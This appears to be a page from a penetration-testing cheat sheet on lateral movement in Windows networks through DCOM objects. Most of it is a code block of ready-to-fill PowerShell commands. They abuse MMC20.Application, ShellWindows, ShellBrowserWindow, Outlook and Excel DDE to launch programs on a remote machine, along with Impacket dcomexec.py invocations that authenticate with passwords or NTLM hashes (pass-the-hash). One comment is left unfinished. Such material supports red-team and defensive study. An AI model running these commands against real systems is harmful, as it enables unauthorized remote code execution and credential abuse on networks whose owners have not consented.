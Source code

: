 ```
```

Multiple `DCOM objects` classes can be leveraged to execute commands on the
remote system. The idea of using `DCOM objects` for lateral movements having
come to light recently, in January 2017 after a publication by `enigma0x3`, the
below list, mostly gathered from
`https://www.cybereason.com/blog/dcom-lateral-movement-techniques`, is possibly
far from being exhaustive.

PowerShell and `Impacket`'s `dcomexec.py` Python script can be used to execute
commands through `DCOM` objects:

```
# PowerShell
# MMC20.Application
# Blocked by the default Windows firewall rules
# Starts a child process under Microsoft Management Console (mmc.exe)
$dcom = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","<IP>"))
$dcom.Document.ActiveView.ExecuteShellCommand("<C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe | BINARY>", $null, <$null | "COMMAND_ARGS">, "7")

# ShellWindows
# Blocked by the default Windows firewall rules
# Requires a File Explorer or Internet Explorer process on the remote system
$dcom = [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39", "<IP¨>"))
$dcom[0].Document.Application.ShellExecute("<BINARY>")
$dcom[0].Document.Application.ShellExecute("<BINARY>", "<COMMAND_ARGS>", "<EXEC_DIRECTORY>", $null, 0)

# ShellBrowserWindow
# Blocked by the default Windows firewall rules
# DOES NOT require a File Explorer or Internet Explorer process on the remote system
# Only available on
$dcom = [activator]::CreateInstance([type]::GetTypeFromCLSID("c08afd90-f2a1-11d1-8455-00a0c91f3880", "<IP¨>"))
$dcom.Document.Application.ShellExecute("<BINARY>")
$dcom.Document.Application.ShellExecute("<BINARY>", "<COMMAND_ARGS>", "<EXEC_DIRECTORY>", $null, 0)

# Outlook through Shell.Application
# Blocked by the default Windows firewall rules?
# Requires Outlook to be installed on the remote system
$dcom = [activator]::CreateInstance([type]::GetTypeFromProgID("Outlook.Application", "<IP¨>"))
$dcom_shell = $dcom.CreateObject("Shell.Application")
$dcom_shell.ShellExecute("<BINARY>")
$dcom_shell.ShellExecute("<BINARY>", "<COMMAND_ARGS>", "<EXEC_DIRECTORY>", $null, 0)

# Excel.Application DDE
# Blocked by the default Windows firewall rules?
# Requires Excel to be installed on the remote system
# The name of the specified binary is limited to 8 characters maximum, so a binary present in the %PATH%, such as powershell.exe or cmd.exe, must be used
$dcom = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application","<IP>"))
$dcom.DisplayAlert = $False
$dcom.DDEInitiate("<BINARY>","<COMMAND_ARGS>")

# Python
# dcomexec.py executes by default a semi-interactive shell using the ShellBrowserWindow DCOM oject.
# NTLM authentication
dcomexec.py -debug [-object <MMC20 | ShellWindows | ShellBrowserWindow>] [-target-ip <TARGET_IP>] [<DOMAIN>/]<USERNAME>[:<PASSWORD>]@<HOSTNAME | IP> <TASK_COMMAND>
dcomexec.py -debug [-object <MMC20 | ShellWindows | ShellBrowserWindow>] -hashes <LM_HASH:NT_HASH> [-target-ip <TARGET_IP>] [[<DOMAIN>/]<USERNAME>@<HOSTNAME | IP> <TASK_COMMAND>

```